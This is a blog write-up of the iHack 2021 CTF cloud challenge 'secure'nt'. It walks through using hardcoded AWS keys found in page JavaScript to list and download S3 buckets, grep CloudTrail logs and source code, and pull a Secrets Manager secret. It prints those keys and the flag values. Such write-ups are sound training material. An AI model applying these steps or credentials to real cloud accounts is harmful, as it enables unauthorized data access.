 ```yaml
---
layout: post
title: iHack 2021 Writeup - secure'nt
date: 2021-06-20
type: post
tags:
- Writeup
- Hacking
- iHack
- CTF
permalink: /2021/06/iHackWriteupSecureNt
img: 2021/06/iHack/SecureNt.png
---
```


The [iHack 2021 CTF](https://ihack.computer/#ctf) had a nice cloud track designed by @dax and @Brainmoustache. One of my teammate did the first flag. I did the second and fourth flag. 

```
secure'nt (@dax & @Brainmoustache)
│   ├── 1 - Hidding secrets (75)
│   ├── 2 - Building secure applications (125)
│   ├── 3 - Putting passwords in the right place (175)
│   ├── 4 - Centralizing data (175)
│   ├── 5 - Setting up authentication (250)
|   └── 6 - Proxying requests (300)
```

The challenge had a small web site that did not do anything. 

```
secure'nt | Secure your new technologies

Are you looking to move your old server right into the Cloud in a very secure way? We can help you with that! Visit our website for more information at https://securent.daxnbrain.ctf.ihack.computer/.

Flag format: ihack-[a-zA-Z\d]{32}
```

![secure'nt](/assets/images/2021/06/iHack/SecureNtSite.png "scure'nt")

## Flag 1 - Hidding secrets

As I mentioned earlier, this flag was found by my teammate [fil](https://lolkatz.github.io/will-hack-for-coffee/). He looked at the page source files. And the flag was hidden in the JavaScript.

```js
flag1:"ihack-z5GTbiHSE3FnO4kYL8bLDN3KSiErk1Ks"
```

He submitted that flag, then moved to other challenges. 

## Flag 4 - Centralizing data

When I got to the AWS track, I also started by looking at the source since the web site did not do anything. 

```js
g={data:function(){return{client:void 0,accessKeyId:"AKIASECYGINV6M2KYV5V",secretAccessKey:"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",bucket_name:"carousel-app-appbucketswatermarkedimagesbucketfce-f1drbai7iuy5",bucket_region:"us-east-1",flag1:"ihack-z5GTbiHSE3FnO4kYL8bLDN3KSiErk1Ks",bucket_prefix:"approved/",s3_delimiter:"/",signedImageUrlList:[],slideConfig:{slideNumber:0,slideInterval:5e3,backgroundColor:"#ffffff"}}}
```

I looked a little closer to where the first flag was and saw the credentials to an AWS S3 bucket. 

I did a little research on how to access a bucket without having access to the AWS console. The first thing I found is a tool called [s3cmd](https://makandracards.com/makandra/31999-browse-amazon-s3-buckets-with-ubuntu-linux). 

This showed me that I had access to a few different buckets. 

```bash
$ s3cmd ls
2021-06-04 12:58  s3://carousel-app-appbucketscloudtrailbackupbucket045b-mw1jg9q9p1w8
2021-06-04 12:58  s3://carousel-app-appbucketsdistributionbucketc2fc3d59-rexadq82h0yg
2021-06-04 12:58  s3://carousel-app-appbucketswatermarkedimagesbucketfce-f1drbai7iuy5
2021-06-04 12:58  s3://carousel-app-infra-source-image-bucket-146213847915
2021-06-04 12:58  s3://carousel-app-loggercloudtrailbucketdb8d265f-13etkhlt2ear6
2021-02-21 02:33  s3://cdktoolkit-stagingbucket-14vl3x42dyu3x
```

I looked at the first one, it contained some logs. I listed it, then installed [the AWS cli](https://docs.aws.amazon.com/cli/) to download the bucket content to my machine. 

```bash
$ s3cmd ls s3://carousel-app-appbucketscloudtrailbackupbucket045b-mw1jg9q9p1w8
                          DIR  s3://carousel-app-appbucketscloudtrailbackupbucket045b-mw1jg9q9p1w8/AWSLogs/
						  
$ aws s3 sync s3://carousel-app-appbucketscloudtrailbackupbucket045b-mw1jg9q9p1w8 logs                                              

download: s3://carousel-app-appbucketscloudtrailbackupbucket045b-mw1jg9q9p1w8/AWSLogs/146213847915/CloudTrail/us-east-1/2021/06/04/146213847915_CloudTrail_us-east-1_20210604T1305Z_e0TWkvsMrYwQJ8Mi.json.gz to logs/AWSLogs/146213847915/CloudTrail/us-east-1/2021/06/04/146213847915_CloudTrail_us-east-1_20210604T1305Z_e0TWkvsMrYwQJ8Mi.json.gz
download: s3://carousel-app-appbucketscloudtrailbackupbucket045b-mw1jg9q9p1w8/AWSLogs/146213847915/CloudTrail/us-east-1/2021/06/04/146213847915_CloudTrail_us-east-1_20210604T1300Z_Jb4unUKF7eB47wPl.json.gz to logs/AWSLogs/146213847915/CloudTrail/us-east-1/2021/06/04/146213847915_CloudTrail_us-east-1_20210604T1300Z_Jb4unUKF7eB47wPl.json.gz
download: s3://carousel-app-appbucketscloudtrailbackupbucket045b-mw1jg9q9p1w8/AWSLogs/146213847915/CloudTrail/us-east-1/2021/06/04/146213847915_CloudTrail_us-east-1_20210604T1300Z_99UyfVrCV5vSCV1G.json.gz to logs/AWSLogs/146213847915/CloudTrail/us-east-1/2021/06/04/146213847915_CloudTrail_us-east-1_20210604T1300Z_99UyfVrCV5vSCV1G.json.gz
...
```

Once the logs where downloaded, I uncompressed them, then grepped for the word flag in the logs. 

```bash
$ cd logs/AWSLogs/146213847915/CloudTrail/us-east-1/2021/06/04 

$ gunzip *.gz

$ grep -Ri flag .
./146213847915_CloudTrail_us-east-1_20210604T1310Z_LxVmyiHzpDeSDX9d.json:
...
"FLAG4", "value": "ihack-cUsRM4GDZwIFvtItKewpxuAvb7H4jm1a"}, 
...
```

The fourth flag was hidden in one of the log files. 

## Flag 2 - Building secure applications

After flag 4, I kept looking at the other buckets. One of them contained the source code to the application.

```bash
$ aws s3 sync s3://carousel-app-appbucketsdistributionbucketc2fc3d59-rexadq82h0yg code
download: s3://carousel-app-appbucketsdistributionbucketc2fc3d59-rexadq82h0yg/.gitignore to code/.gitignore
download: s3://carousel-app-appbucketsdistributionbucketc2fc3d59-rexadq82h0yg/client/dist/css/app.e394e790.css to code/client/dist/css/app.e394e790.css
download: s3://carousel-app-appbucketsdistributionbucketc2fc3d59-rexadq82h0yg/buildspec.yml to code/buildspec.yml
download: s3://carousel-app-appbucketsdistributionbucketc2fc3d59-rexadq82h0yg/Pipfile to code/Pipfile
download: s3://carousel-app-appbucketsdistributionbucketc2fc3d59-rexadq82h0yg/README.md to code/README.md
download: s3://carousel-app-appbucketsdistributionbucketc2fc3d59-rexadq82h0yg/Pipfile.lock to code/Pipfile.lock
...
```

After the code was downloaded, I grepped for the word flag another time. The flag was in a comment at the beginning of the `buildspec.yml` file. 

```bash
$ grep -Ri flag .
...
/code/buildspec.yml:# FLAG2: ihack-wWMsmNxTYw0Cqj4WxloSpz8OhWm6UNAR
```

I submitted that flag, then started looking at the source code, but failed to find any other flags.

## Flag 3 - Putting passwords in the right place

As stated earlier, I did not get this flag during the CTF. But I got close, and Brainmoustache and dax gave the solution after it was over, so I think it's worth documenting it. 

The source code came with an architecture diagram.

![Architecture Diagram](/assets/images/2021/06/iHack/Diagram.png "Architecture Diagram")

The challenge name is about putting passwords where they belong. And the diagram shows that it's using Secret manager. So I started to look about accessing it with the credentials I had.

I tried to list the secrets. 

```bash
$ aws secretsmanager list-secrets
```

But it gave me an error saying that my user was not authorized to list the secrets. Next I tried to guess the secret ID. 

```bash
aws secretsmanager get-secret-value --secret-id password
aws secretsmanager get-secret-value --secret-id VUE_APP_FLAG1 
aws secretsmanager get-secret-value --secret-id VUE_APP_BUCKET_NAME
...
```

Nothing worked. I always got an access denied. 

I went back to the source code. I found that the file `watermark.py` was using assume role to elevate it's permissions. I tried doing the same thing. 

```
$ aws sts assume-role --role-arn carousel-app-infra-role-secret:role_arn --role-session-name test

An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::146213847915:user/dev-user is not authorized to perform: sts:AssumeRole on resource: carousel-app-infra-role-secret:role_arn
```

Access denied again. I looked at the code, the logs and the other buckets over and over without finding anything. I also tried to modify the code and push it, but I did not have permission to write in any bucket. So after a while, I left this aside and moved to another track. 

After the competition was over,  the solution was posted in Discord. The secret id was in `buildspec.yml`, it was the role I was trying to impersonate. 

```yml
  secrets-manager:
    # ToDo: Review Secretsmanager access
    INVOKE_API_ROLE: carousel-app-infra-role-secret:role_arn
```


I could have used that as the secret id in the AWS cli, and get the third flag. 

```bash
$ aws secretsmanager get-secret-value --secret-id carousel-app-infra-role-secret --region us-east-1
{
    "ARN": "arn:aws:secretsmanager:us-east-1:146213847915:secret:carousel-app-infra-role-secret-RhnoAr",
    "Name": "carousel-app-infra-role-secret",
    "VersionId": "fc3eacfe-d5bb-4a31-a28a-f1272b302c9c",
    "SecretString": "{\"role_arn\":\"arn:aws:iam::146213847915:role/carousel-app-CiCdInvokeApiRole56EA5614-AFECOPL6148K\",\"flag3\":\"ihack-zs3h7zJHZoiPmys30oE6RPXo9w5sbgIh\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1622811586.261
}
```
